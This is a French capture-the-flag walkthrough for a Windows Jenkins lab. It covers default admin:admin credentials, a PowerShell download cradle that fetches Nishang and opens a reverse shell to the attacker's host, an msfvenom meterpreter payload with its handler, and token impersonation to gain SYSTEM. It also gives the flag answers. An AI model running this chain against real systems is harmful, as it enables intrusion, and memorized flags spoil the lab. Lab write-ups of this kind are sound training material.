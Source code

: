 # Task 1 
## Nb de ports ouverts ? 
Nmap [IP_ADDRESS_ROOM]

**3 ports TCP ouverts**

## Creds utilisés ? 

Aller à l'adresse de la room sur le port 8080 : 

[IP_ADDRESS_ROOM]:8080

Creds par défault jenkins 

**admin:admin**

## What is the user.txt flag? 

	1. Aller dans les configurations du projet 
	2. Rentrer la commande suivante : 

### Commande 
``` powershell iex (New-Object Net.WebClient).DownloadString('http://[IP_ADDRESS_VPN]:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP_ADDRESS_VPN] -Port 1234 ```

	3. Appliquer & Sauvegarder
	4. Cloner le fichier https://github.com/samratashok/nishang 
		a. Rentrer dans le dossier : nishang/Shells/
	5. Lancer un serveur python sur le port 8000 (par défaut)
		a. Python3 -m http.server 
	6. Lancer un listener sur le port 1234
	7. Lancer le build sur Jenkins 
		a. Quand le build se lance, regarder si le fichier se télécharge bien
			10.10.86.191 - - [22/Aug/2023 04:53:33] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
		b. Une fois qu'il est téléchargé regarder le listener, un shell devrait s'ouvrir sur la machine jenkins 
			PS C:\Program Files (x86)\Jenkins\workspace\project>
	8. Se rendre dans le dossier : C:\Users\bruce\Desktop
	9. Afficher le fichier flag.txt : 
		a. Type flag.txt 
		79007a09481963edf2e1321abd9ae2a0
Ne pas quitter le listener ! 

# Task 2 

Utiliser msfvenom pour faire un reverse shell meterpreter Windows en utilisant le payload suivant : 
``` msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP_ADDRESS_VPN] LPORT=1234 -f exe -o shell-name.exe ```

Le télécharger sur la machine avec la même méthode que la **Task 1**

**Utiliser la commande dans le listener :**

``` powershell "(New-Object System.Net.WebClient).Downloadfile('http://[IP_ADDRESS_VPN]:8000/shell-name.exe','shell-name.exe')" ```

Avant de lancer le build, utiliser le handler sur metasploit avec le payload reverse tcp 

``` use exploit/multi/handler ```
``` set PAYLOAD windows/meterpreter/reverse_tcp ```
``` set LHOST [IP_ADDRESS_VPN] ```
``` set LPORT 1234 ```

Cette étape permet de recevoir une connexion entrante du rerverse shell. Une fois lancé, entrer la commande suivante pour lancer le reverse shell :

``` Start-Process "shell-name.exe" ```

Un meterpreter devrait aparaitre 

## Quelle est la taille finale du payload executable généré ?

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
**Final size of exe file: 73802 bytes**
Saved as: shell-name.exe

# Task 3 

Regarder tous les privilèges avec la commande : whoami /priv 

Entrer la commande ``` load incognito ```  dans le meterpreter

Entrer la commande suivante pour voir les tokens disponibles : 

``` list_tokens -g  ```

Entrer la commande pour utiliser le jeton de l'administrateur : 

``` impersonate_token "BUILTIN\Administrators" ```

Même si vous avez un jeton privilégié plus élevé, vous ne disposez peut-être pas des autorisations d'un utilisateur privilégié (cela est dû à la façon dont Windows gère les autorisations - il utilise le jeton principal du processus et non le jeton imité pour déterminer ce que le processus peut ou ne peut pas faire). 

Assurez-vous que vous migrez vers un processus avec les autorisations correctes (réponse à la question ci-dessus). Le processus le plus sûr à choisir est le processus services.exe. Tout d'abord, utilisez la commande ``` ps ``` pour afficher les processus et trouver le PID du processus services.exe. Migrez vers ce processus à l'aide de la commande ```migrate PID-OF-PROCESS```
 
Regardez dans quel dossier vous êtes avec la commande ``` pwd ```

Se rendre dans le dossier C:\Windows\system32\config

Afficher le fichier root.txt 

Cat ``` root.txt ```

**dff0f748678f280250f25a45b8046b4a**

